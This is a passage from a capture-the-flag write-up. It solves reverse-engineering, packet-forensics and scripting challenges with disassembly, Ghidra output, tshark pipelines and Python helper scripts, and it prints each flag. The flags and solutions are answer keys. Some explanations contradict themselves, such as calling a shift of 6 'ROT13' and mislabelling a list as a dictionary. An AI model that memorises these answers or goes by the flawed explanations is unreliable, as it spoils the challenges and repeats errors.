13f1:  83 6d fc 0a   subl   $0xa,-0x4(%rbp)   # Subtract 10
13f5:  83 7d fc 2a   cmpl   $0x2a,-0x4(%rbp)  # Compare with 42

The condition:  final result−10=42
Rearranging:    final result = 52
```

1. Solving for Input:

```mathematica
(5 x input + 4) / 2 = 52
5 x input + 4 = 52 * 2 = 104
5 x input = 104 - 4 = 100
input = 100 / 5 = 20
```

- **Executing the script**

- As we solved the equation off check_number function, now try entering 20 as the secret number.
- Hurrey!! It worked. We got the flag.


```
flag{h556cdd`=ag.c53664:45569368391gc}
```

### 5. letters2nums


- Given Files: encflag.txt and letters2nums.elf

[encflag.txt](data/encflag.txt)

[letters2nums](Files/letters2nums.txt)

- **Understanding the challenge**
    - This challenge is about reverse engineering the `letters2nums.elf` binary to decode the numbers in `encflag.txt`
    - Executed the elf file to see how it works. It gives below error
    


- Next Step,
    - Checked strings of the binary. I noticed some functions like `encodeChars`, `writeFlag`, and `readFlag`. The function names suggest that `encodeChars` converts letters to numbers, meaning we need to reverse this process.
    - Disassembling the binary using command: `objdump -d letters2nums.elf.` Below are the disassembled function


- Now again with the help of chatgpt, analysing the function.

- The `encodeChars` function takes two `char` values as input and combines them into a `short` (16-bit integer).

1. It moves the first character (`edi`) into `dl` and the second character (`esi`) into `al`.
2. It shifts the first character left by 8 bits (`c1 e0 08`), effectively making it the high byte of a 16-bit integer.
3. It ORs (`09 d0`) the second character with this shifted value, combining them into a single `short` (16-bit) value.
4. It returns this combined value.
    - **Mathematically**, $encodedValue =(char1≪8)∣char2$
    - **For eg.**  'H' (ASCII 72) and 'i' (ASCII 105)
        
            $encodedValue: (72≪8)∣105=(18432)∣(105)=18537$
        
5. It means this function is encoding two characters into a single 16-bit integer and it might be how `encflag.txt` was encoded — each two-character pair was converted into a number.
6. So we need to reverse this to decode the data given in encflag.txt
    - Extract the high byte: `value >> 8`
    - Extract the low byte: `value & 0xFF`
    - Convert both back to characters.
    - Contents of encflag.txt
    

```nasm
21608, 26995, 8297, 29472, 24864, 27759, 28263, 8289, 28260, 8291,
    28526, 30319, 27765, 25701, 25632, 30561, 31008, 29807, 8308, 29305,
    8289, 28260, 8296, 26980, 25888, 29800, 25888, 26220, 24935, 14950,
    27745, 26491, 13154, 12341, 12390, 13665, 14129, 13925, 13617, 25400,
    14693, 14643, 12851, 25185, 26163, 24887, 25143, 13154, 32000
```

1. Now again with the help of chatgpt, I generated a python script to decode these encrypted values.

```python
encoded_values = [
    21608, 26995, 8297, 29472, 24864, 27759, 28263, 8289, 28260, 8291,
    28526, 30319, 27765, 25701, 25632, 30561, 31008, 29807, 8308, 29305,
    8289, 28260, 8296, 26980, 25888, 29800, 25888, 26220, 24935, 14950,
    27745, 26491, 13154, 12341, 12390, 13665, 14129, 13925, 13617, 25400,
    14693, 14643, 12851, 25185, 26163, 24887, 25143, 13154, 32000
]

def decode_values(encoded_values):
    decoded_chars = []
    for value in encoded_values:
        high_byte = (value >> 8) & 0xFF
        low_byte = value & 0xFF
        decoded_chars.append(chr(high_byte))
        decoded_chars.append(chr(low_byte))
    return "".join(decoded_chars)

decoded_flag = decode_values(encoded_values)
print("Decoded Flag:", decoded_flag)
```

- **Understanding the python script**
    - make a list and paste the values from encflag.txt
    - In the function, first, it creates an empty dictionary to store the decoded values.
    - Then using loop, it iterates over encoded_values list. and extract high bytes and store in variable high_byte, similarly, extract low byte and store in low_byte var.
    - Then it converts hight and low byte to char like this `chr(high_byte)` and appends into the empty list.
    - This loop goes on until all the values in the encoded_values list are done with.
    - The the function then returns the decoded_chars list by joinig it into string
    - Finally print the decoded_flag string. And we got the flag 🥳

 


```
flag{3b050f5a716e51c89e9323baf3a7b73b}
```

### 6. Either Or


- Given File: either-or

[either-or.zip](data/either-or.zip)

- I tried open it in ghidra and try to analyze it and what i found is main function.


```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  undefined8 local_d8;
  undefined8 local_d0;
  undefined local_c8 [64];
  char local_88 [64];
  undefined local_48 [56];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_d8 = 0x635f677265707266;
  local_d0 = 0x7165626a66666e;
  puts("Welcome to the Encoding Challenge!");
  printf("Enter the secret word: ");
  __isoc99_scanf(&DAT_00102043,local_c8);
  encode_input(local_c8,local_88);
  iVar1 = strcmp(local_88,(char *)&local_d8);
  if (iVar1 == 0) {
    decode_flag(local_48);
    printf("Well done! Here\'s your flag: flag{%s}\n",local_48);
  }
  else {
    puts("Not quite right. Keep trying!");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}

```

- Also there another functions call named `encode_input` and `decode_flag`,

```c
void encode_input(long param_1,long param_2)

{
  int iVar1;
  int local_c;
  
  for (local_c = 0; *(char *)(param_1 + local_c) != '\0'; local_c = local_c + 1) {
    if ((*(char *)(param_1 + local_c) < 'a') || ('z' < *(char *)(param_1 + local_c))) {
      if ((*(char *)(param_1 + local_c) < 'A') || ('Z' < *(char *)(param_1 + local_c))) {
        *(undefined *)(param_2 + local_c) = *(undefined *)(param_1 + local_c);
      }
      else {
        iVar1 = *(char *)(param_1 + local_c) + -0x34;
        *(char *)(param_2 + local_c) = (char)iVar1 + (char)(iVar1 / 0x1a) * -0x1a + 'A';
      }
    }
    else {
      iVar1 = *(char *)(param_1 + local_c) + -0x54;
      *(char *)(param_2 + local_c) = (char)iVar1 + (char)(iVar1 / 0x1a) * -0x1a + 'a';
    }
  }
  *(undefined *)(param_2 + local_c) = 0;
  return;
}
```

```c
void decode_flag(long param_1)

{
  long in_FS_OFFSET;
  uint local_3c;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_38 = 0x7b7a712676757224;
  local_30 = 0x7570207674737071;
  local_28 = 0x7324267a7277237a;
  local_20 = 0x7b7a242427772073;
  for (local_3c = 0; local_3c < 0x20; local_3c = local_3c + 1) {
    *(byte *)(param_1 + (int)local_3c) = *(byte *)((long)&local_38 + (long)(int)local_3c) ^ 0x42;
  }
  *(undefined *)(param_1 + 0x20) = 0;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

```

- So first i convert the `encode_input function to C` using GPT,

```c
#include <stdio.h>

void encode_input(const char *input, char *output) {
    int i = 0;
    while (input[i] != '\0') {
        char c = input[i];

        if (c >= 'a' && c <= 'z') {
            output[i] = ((c - 'a' - 84) % 26 + 26) % 26 + 'a';  // Ensure wrap-around
        } 
        else if (c >= 'A' && c <= 'Z') {
            output[i] = ((c - 'A' - 52) % 26 + 26) % 26 + 'A';  // Ensure wrap-around
        } 
        else {
            output[i] = c;  // Keep non-alphabetic characters unchanged
        }

        i++;
    }
    output[i] = '\0';  // Null-terminate the output
}

```

- Explanation:- The function **shifts letters backward** in the alphabet while keeping non-alphabetic characters unchanged.
    - Lowercase letters **(`a-z`)** are shifted back by `84 positions`
        - (effectively `84 % 26 = 6` places backward).
        - $NewChar = ( OriginalChar − 84 − 'a') mod 26 + ‘a’$
    - Uppercase letters **(`A-Z`)** are shifted back by **52** positions
        - (effectively `52 % 26 = 0`, meaning no change).
        - $NewChar = ( OriginalChar − 52 − 'A') mod 26 + 'A'$
    - Non-alphabetic characters remain unchanged.

- `(In Short It just apply ROT13 on given input)`

- Now Secondly, i convert the `decode_flag function to C` using GPT,

```c
#include <stdio.h>
#include <stdint.h>
#include <string.h>

void decode_flag(char *output) {
    uint8_t encrypted_flag[32] = {
        0x7b, 0x7a, 0x71, 0x26, 0x76, 0x75, 0x72, 0x24,
        0x75, 0x70, 0x20, 0x76, 0x74, 0x73, 0x70, 0x71,
        0x73, 0x24, 0x26, 0x7a, 0x72, 0x77, 0x23, 0x7a,
        0x7b, 0x7a, 0x24, 0x24, 0x27, 0x77, 0x20, 0x73
    };

    for (int i = 0; i < 32; i++) {
        output[i] = encrypted_flag[i] ^ 0x42;  // XOR decryption
    }
    output[32] = '\0';  // Null-terminate the string
}
```

- Unintendent Way :-

- From Here we directly get the flag but maybe this is not intendent way,
- `Just Converting this to LE to BE and XOR with 0x42`

```mathematica
                 ((LE to BE) - 1)

7b 7a 71 26 76 75 72 24 ==> 24 72 75 76 26 71 7a 7b 
75 70 20 76 74 73 70 71 ==> 71 70 73 74 76 20 70 75 
73 24 26 7a 72 77 23 7a ==> 7a 23 77 72 7a 26 24 73 
7b 7a 24 24 27 77 20 73 ==> 73 20 77 27 24 24 7a 7b
```


- Intendent Way :-

- This Code is just doing `XOR with 0x42 with each byte` given.
- Now let’s Analyze the C code of Main,

```c
#include <stdio.h>
#include <string.h>

void encode_input(char *param_1, char *param_2);
void decode_flag(char *param);

int main(void) {
    int iVar1;
    long in_FS_OFFSET;
    unsigned long long Password_Part1;
    unsigned long long Password_Part2;
    char local_c8[64];
    char local_88[64];
    char local_48[56];
    long local_10;
  
    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    Password_Part1 = 0x635f677265707266;  // "frperg_c"
    Password_Part2 = 0x7165626a66666e;    // "nffjbeq"

    // Password = 0x7165626A66666E635F677265707266 // "frperg_cnffjbeq" ==(ROT13)==> 
    //"secret_password"
    
    puts("Welcome to the Encoding Challenge!");
    printf("Enter the secret word: ");
    scanf("%63s", local_c8);  // Read user input safely
  
    encode_input(local_c8, local_88);  // Encode the input
  
    iVar1 = strcmp(local_88, (char *)&Password_Part1);  // Compare encoded input with "frperg_c"
    if (iVar1 == 0) {
        decode_flag(local_48);  // Decode the flag if input matches
        printf("Well done! Here's your flag: flag{%s}\n", local_48);
    } else {
        puts("Not quite right. Keep trying!");
    }
  
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();  // Stack protection check
    }
  
    return 0;
}

```

- As per Main code we get the string which is comparing `secret_password` so when i use that in binary i got the flag.


```
flag{f074d38932164b278a508df11b5eff89}
```

## Forensics

### 1. Free Range Packets


- Given File: freeRangePackets.pcapng

[freeRangePackets.pcapng](data/freeRangePackets.pcapng)

- This Pcap file contains the conversation of bluetooth protocol and our task is to carve the flag from payload part because it is spreaded over all in payload of Bluetooth L2CAP Protocl’s payload as per the image.
- So i carve this data using https://tshark.dev/ `Tshark` Tool and some bash filtering command.


- Here it the whole command,

```bash
tshark -r freeRangePackets.pcapng -Y "bthci_acl" -V -x | \
grep "Payload:" | \
sed 's/ *Payload: //g' | \
tr -d '\n' | \
sed 's/0bef03//g' | \
sed 's/9a//g' | \
sed 's/09ff01065c//g'
```

- Breakdown of this command with sublime text,
    1. Step One Getting everything `bthci-acl` in short getting filtering all packets which contains our payload using this command
        - `tshark -r freeRangePackets.pcapng -Y "bthci_acl" -V -x`
        
        
        
        
        

2. We Grep all fields which contains Payload using this command,

- `| grep "Payload:"`


1. Now we remove the Payload text and new line and combine all the hex using this command,
    - `sed 's/ *Payload: //g' | tr -d '\n'`
    
    
    
2. Now as per above wireshark image we only need `last 2 byes` for our actual printable data so we remove all other hex using this command,
    - `sed 's/0bef03//g' |`
    
    
    
    
    
3. We also remove the `9a` which non-printable character and `09ff01065c` is garbage data so we remove it using this command,
    - `sed 's/9a//g' | sed 's/09ff01065c//g'`
    
    
    
    
    
4. This is final hex we got and when we convert it we got our flag
    
    
    

```
flag{b5be72ab7e0254c056ffb57a0db124ce}
```

### 2. **ClickityClack**


- Given File: click.pcapng

[click.pcapng](data/click.pcapng)

- When i open this pcapng in wireshark i found that this is `USB Protocol` conversation and i have already solved such challenge and also seen the video of one and only https://www.youtube.com/watch?v=0HXL4RGmExo so i am familier with this technique


- For this i have used this github repo to extract the content named `5h4rrk` https://github.com/5h4rrk/CTF-Usb_Keyboard_Parser/ and after using this i got the flag,
    - For technicalities see this video ( https://www.youtube.com/watch?v=0HXL4RGmExo)
    - (Credit Goes to https://github.com/5h4rrk/ and https://www.youtube.com/watch?v=0HXL4RGmExo)

```python
import subprocess,sys,os
import shlex,string
usb_codes = {
    "0x04":['a','A'],"0x05":['b','B'], "0x06":['c','C'], "0x07":['d','D'], "0x08":['e','E'], "0x09":['f','F'],"0x0A":['g','G'],"0x0B":['h','H'], "0x0C":['i','I'], "0x0D":['j','J'], "0x0E":['k','K'], "0x0F":['l','L'],"0x10":['m','M'], "0x11":['n','N'], "0x12":['o','O'], "0x13":['p','P'], "0x14":['q','Q'], "0x15":['r','R'],"0x16":['s','S'], "0x17":['t','T'], "0x18":['u','U'], "0x19":['v','V'], "0x1A":['w','W'], "0x1B":['x','X'],"0x1C":['y','Y'], "0x1D":['z','Z'], "0x1E":['1','!'], "0x1F":['2','@'], "0x20":['3','#'], "0x21":['4','$'],"0x22":['5','%'], "0x23":['6','^'], "0x24":['7','&'], "0x25":['8','*'], "0x26":['9','('], "0x27":['0',')'],"0x28":['\n','\n'], "0x29":['[ESC]','[ESC]'], "0x2A":['[BACKSPACE]','[BACKSPACE]'], "0x2B":['\t','\t'],"0x2C":[' ',' '], "0x2D":['-','_'], "0x2E":['=','+'], "0x2F":['[','{'], "0x30":[']','}'], "0x31":['\',"|'],"0x32":['#','~'], "0x33":";:", "0x34":"'\"", "0x36":",<",  "0x37":".>", "0x38":"/?","0x39":['[CAPSLOCK]','[CAPSLOCK]'], "0x3A":['F1'], "0x3B":['F2'], "0x3C":['F3'], "0x3D":['F4'], "0x3E":['F5'], "0x3F":['F6'], "0x41":['F7'], "0x42":['F8'], "0x43":['F9'], "0x44":['F10'], "0x45":['F11'],"0x46":['F12'], "0x4F":[u'→',u'→'], "0x50":[u'←',u'←'], "0x51":[u'↓',u'↓'], "0x52":[u'↑',u'↑']
   }
data = "usb.capdata"
filepath = sys.argv[1]

def keystroke_decoder(filepath,data):
    out = subprocess.run(shlex.split("tshark -r  %s -Y \"%s\" -T fields -e %s"%(filepath,data,data)),capture_output=True)
    output = out.stdout.split() # Last 8 bytes of URB_INTERPRUT_IN
    message = []
    modifier =0
    count =0
    for i in range(len(output)):
        buffer = str(output[i])[2:-1]
        if (buffer)[:2] == "02" or (buffer)[:2] == "20":
            for j in range(1):
                count +=1 
                m ="0x" + buffer[4:6].upper()
                if m in usb_codes and m == "0x2A": message.pop(len(message)-1)
                elif m in usb_codes: message.append(usb_codes.get(m)[1])
                else: break
        else:
            if buffer[:2] == "01": 
                modifier +=1
                continue   
            for j in range(1):
                count +=1 
                m  = "0x" + buffer[4:6].upper()
                if m in usb_codes and m == "0x2A": message.pop(len(message)-1)
                elif m in usb_codes : message.append(usb_codes.get(m)[0])
                else: break

    if modifier != 0:
        print(f'[-] Found Modifier in {modifier} packets [-]')
    return message

if len(sys.argv) != 2 or os.path.exists(filepath) != 1:
    print("\nUsage : ")
    print("\npython Usb_Keyboard_Parser.py <filepath>")
    print("Created by \t\t\t Sabhya <sabhrajmeh05@gmail.com\n")
    print("Must Install tshark & subprocess first to use it\n")
    print("To install run \"sudo apt install tshark\"")
    print("To install run \"pip install subprocess.run\"")
    exit(1)

function_call = keystroke_decoder(filepath,data)
hid_data =''

for _ in range(len(function_call)): hid_data += function_call[_]

if(hid_data == ''):
    function_call = keystroke_decoder(filepath, "usbhid.data")
    print("\n[+] Using filter \"usbhid.data\" Retrived HID Data is : \n")
    for _ in range(len(function_call)): print(function_call[_],end='')
    print("\n")
else:
    print("\n[+] Using filter \"usb.capdata\" Retrived HID Data is : \n")
    print(hid_data)
```


```
flag{a3ce310e9a0dc53bc030847192e2f585}
```

## Scripting

### 1. Coding Mountains


Given File: mountains.json 

[mountains.json](data/mountains.json)

- **Understanding the question and execution flow**


- To get flag we need to give answers to `50 question`
- Answers we have to fetch from json file - `Height and Year for the mountain` as asked in the question.
- And We need a script to do it.
- After understanding the requirements, made a to-do list and with the help of `chatgpt written a script`

```python
import socket
import json

with open("mountains.json", "r") as file:
    mountains = json.load(file) 
mountain_dict = {m["name"]: (m["height"].replace(",", ""), m["first"]) for m in mountains}
HOST = "challenge.ctf.games"
PORT = 30954
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    
    data = s.recv(1024).decode()
    print(data)
    yes = input()
    s.sendall(yes.encode() + b"\n")
    
    for i in range(102):
        data = s.recv(1024).decode()
        print(str(i)+data) #0 index will be take by initial data "awesome..."
        if "What is the height and first ascent year of" in data:
 
            mountain_name = data.split("What is the height and first ascent year of ")[1].strip().replace(":", "")
            if mountain_name in mountain_dict:
                height, ascent = mountain_dict[mountain_name]
                response = f"{height},{ascent}\n"
            else:
                response = "none,none\n" #as per question
            s.sendall(response.encode())
```

- Working flow of script:
    - **Load the JSON File**
        - Opens the file `mountains.json` in read mode.
        - Parses the JSON content into a Python object (`mountains`).
    - **Create a Dictionary (`mountain_dict`)**
        - Extracts each mountain's `name`, `height`, and `first ascent year` from the JSON data.
        - Removes commas from `height` values (e.g., "8,848" → "8848").
    - **Establish a Connection with the Server**
        - Defines `HOST = "challenge.ctf.games"` and `PORT = 30954`.
        - Creates a TCP socket using `socket.AF_INET` and `socket.SOCK_STREAM`.
        - Connects to the specified host and port.
    - **Receive Initial Data from the Server**
        - Reads up to `1024` bytes from the socket.
        - Decodes and prints the received message.
    - **Send an Initial Response**
        - Waits for user input “Y”.
        - Sends the response to the server, appending a newline (`\n`).
    - **Process Incoming Questions (Loop for 102 Iterations)**
        - Receives a message from the server (up to 1024 bytes).
        - Prints the received message, prefixed with the loop index.
    - **Extract Mountain Name from Server's Question**
        - Checks if the message contains `"What is the height and first ascent year of"`.
        - Extracts the mountain name from the question.
    - **Look Up the Mountain Information**
        - Searches for the mountain name in `mountain_dict`.
        - If found, retrieves its height and first ascent year.
        - Constructs a response in `"height,year\n"` format.
        - If not found, sends `"none,none\n"`.
    - **Send the Response to the Server**
        - Encodes the response and sends it via the socket.
    - **Loop Repeats Until All Questions Are Answered**

- Script Execution


```
flag{33e043f76c3ba0fe9265749dbe650940}
```
